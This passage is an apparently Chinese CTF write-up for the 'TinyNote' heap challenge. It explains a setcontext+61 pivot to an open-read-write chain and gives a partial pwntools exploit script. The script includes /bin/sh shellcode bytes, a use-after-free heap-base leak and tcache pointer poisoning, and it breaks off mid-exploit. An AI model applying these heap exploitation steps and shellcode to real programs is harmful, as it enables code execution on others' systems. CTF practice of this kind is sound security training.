 然后会call到rdx+0x20处即`setcontext+61`，设置rdx+0xa0和+0xa8为orw地址(rsp)和pop rdi(rcx)，这样poprdi就会把orw地址处第一个地址给rdi，然后从第二个地址开始执行(小技巧吧，ret的优化)

```python
from pwn import *
# context.log_level = "debug"
context.arch = "amd64"

p = process('./TinyNote')
elf = ELF("./TinyNote")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def add(idx):
	sla("Choice:",1)
	sla("Index:",idx)

def edit(idx,con):
	sla("Choice:",2)
	sla("Index:",idx)
	p.sendafter("Content:",con)

def show(idx):
	sla("Choice:",3)
	sla("Index:",idx)

def dele(idx):
	sla("Choice:",4)
	sla("Index:",idx)

#---------------------------------------------------leak 
add(0)
add(1)
dele(0)
show(0)
p.recvuntil("Content:")
key = u64(p.recv(6).ljust(8,'\x00'))
lg("key")
heap_base = key<<12
lg("heap_base")

#利用UAF任意堆地址写改size合并
dele(1)
edit(1,p64((heap_base+0x2b0)^key))
```